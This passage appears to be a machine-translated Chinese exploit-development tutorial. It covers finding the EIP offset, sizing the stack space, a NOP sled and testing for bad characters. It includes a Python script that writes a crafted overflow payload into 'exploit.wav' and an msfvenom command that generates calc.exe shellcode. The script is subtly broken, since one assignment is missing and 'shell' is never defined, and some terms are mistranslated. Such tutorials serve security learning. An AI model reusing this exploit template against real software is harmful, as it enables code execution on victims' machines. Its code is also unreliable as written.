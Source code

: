 当您查看转储时，您会看到最初偏移了 10 个字符。这意味着为了使代码的执行更加可靠，我们需要在 EIP 和外壳代码之间添加一个 10 个或更多字符的 NOP。现在，我们需要确定在堆栈的这个位置有多少空间来注入代码。我们查看内存转储，找到起始地址和结束地址之间的差异，以确定我们有多少空间。以这两个地址为例，我们发现可以使用大约-320 字节的有限空间。

如果我们做的是单级有效载荷，我们可以执行许多步骤来验证我们是否将保持在范围内。不过，我们正在进行多级有效载荷，这意味着我们需要比提供的空间更多的空间。这意味着我们需要实时修改堆栈大小，但在此之前，我们应该确认我们可以执行代码，并且您需要了解堆栈空间耗尽的情况。

现在我们知道了堆栈空间和偏移量，可以调整脚本以搜索潜在的坏字符。接下来，我们在代码末尾添加一个 NOP 底座，以确保跳转到 ESP 幻灯片的执行，直到跳转到可执行代码为止。我们通过计算我们必须使用的整个区域并从中减去偏移量和外壳代码来实现这一点。

然后，我们创建一个 NOP 雪橇，占据剩余区域。执行此操作的最简单方法是使用类似于`nop = "\x90"*(320-len(shell)-len(offset))`的方程式。更新后的 Python 代码如下所示。使用下面的 Python 脚本，我们可以测试坏字符；请注意，我们必须在初始大小调整后执行此操作，因为我们的问题区域将位于剩余的堆栈空间中。

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
characters"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
"\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d"
"\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c"
"\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b"
"\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a"
"\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59"
"\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77"
"\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86"
"\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95"
"\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4"
"\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3"
"\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe"
"\xff")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

我们应该生成程序将跳转到的模拟外壳代码。对于初始测试用例，您希望从一个没有任何其他依赖关系的简单示例开始。因此，我们可以告诉注入的代码调用`calc.exe`的实例。要做到这一点，我们所要做的就是使用`msfvenom`生成 shell 代码。

```
msfvenom -p windows/exec CMD=calc.exe -f c -b '\x00\xff'

```

这样做的目的是以可以放入 Python 元组的格式生成外壳代码，并删除潜在的坏字符`'\x00'`、`'\xff'`。像`msfvenom`这样的工具通过使用编码器自动为我们实现这一点。编码器的目的是删除坏字符；有一个很大的误解，他们被用来绕过臀部像防病毒。
